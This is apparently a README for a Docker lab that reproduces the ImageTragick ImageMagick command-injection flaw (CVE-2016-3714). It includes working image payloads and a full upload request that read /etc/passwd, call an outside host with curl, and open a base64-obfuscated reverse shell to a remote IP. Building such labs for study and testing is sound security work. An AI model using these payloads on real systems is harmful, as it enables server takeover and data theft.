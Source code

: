 # Imagetragick Command Execution Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

The principle and details are as follows:

- https://imagetragick.com/
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

## Environment Setup

Enter the following commands:

```
docker-compose build
docker-compose up -d
```

Visit `http://your-ip/` and you'll see three files:

```bash
├── demo.php # use vul.jpg + identify command to test 
├── upload.php # Support users to upload a file，deliver it to PHP's imagick extension, and then the vulnerability will be triggered
└── vul.jpg # a simple POC
```

## POC

Some POCs used: https://github.com/ImageTragick/PoCs

You can take a test by visiting `http://your-ip/demo.php`. Even though the command executed (`cat /etc/passwd > /tmp/success`) has no echo reply, we successfully obtain the `/tmp/success` file in the docker container:

![](1.png)

Also you can visit `http://your-ip/upload.php` to test another POC. Upload the POC file and packets are as follows（**Attention: this is another POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

As shown, `www.leavesongs.com:8889` has received the http request, proving that the curl command is executed successfully：

![](2.png)

POC of getting a shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
